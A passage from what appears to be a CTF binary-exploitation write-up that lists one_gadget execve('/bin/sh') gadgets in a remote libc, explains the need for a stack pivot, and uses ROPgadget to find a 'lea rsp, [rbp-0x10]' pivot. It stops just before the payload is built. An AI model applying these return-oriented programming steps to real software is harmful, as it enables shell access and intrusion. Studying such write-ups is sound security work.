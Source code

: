 ```ruby
  r13 == NULL || {"/bin/sh", r13, NULL} is a valid argv
  [r12] == NULL || r12 == NULL || r12 is a valid envp

0xebda8 execve("/bin/sh", rbp-0x50, [rbp-0x70])
constraints:
  address rbp-0x48 is writable
  r12 == NULL || {"/bin/sh", r12, NULL} is a valid argv
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL || [rbp-0x70] is a valid envp

0xebdaf execve("/bin/sh", rbp-0x50, [rbp-0x70])
constraints:
  address rbp-0x48 is writable
  rax == NULL || {rax, r12, NULL} is a valid argv
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL || [rbp-0x70] is a valid envp

0xebdb3 execve("/bin/sh", rbp-0x50, [rbp-0x70])
constraints:
  address rbp-0x50 is writable
  rax == NULL || {rax, [rbp-0x48], NULL} is a valid argv
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL || [rbp-0x70] is a valid envp
```

Even though the list long enough, there's none where constraints are met.

So, apparently, we need to perform some stack pivoting, to have enough space to
setup everything before we can drop into shell. Namely, we need to decrease `rsp`
value enough so it points to somewhere within the cyclic pattern we control,
while we can take advantage of being able to supply the `rbp` value.

We use `ROPgadget`, filter out what's definitely won't help, and it produces
only a 100 lines of potentially useful output. As we scroll through it, there's
a gadget that immediately draws attention, as it directly sets `rsp = [rbp - 0x10]`:

```sh
❯ ROPgadget --binary remote-libc.so.6 | grep -F rsp | grep -F rbp | grep -v -F "jmp 0x" | grep -v -F "add rsp"
...
0x00000000000e91d3 : lea rsp, [rbp - 0x10] ; pop r12 ; pop r13 ; pop rbp ; ret
...
```

Coincidentally, after overwriting the `rsp` to somewhere we control, it also
populates `r12`, `r13`, and `rbp`, which is the perfect setup for one of the
above gadgets:

```ruby
0xebd52 execve("/bin/sh", rbp-0x50, r12)
constraints:
  address rbp-0x48 is writable
  r13 == NULL || {"/bin/sh", r13, NULL} is a valid argv
  [r12] == NULL || r12 == NULL || r12 is a valid envp
```

Let's build the payload:
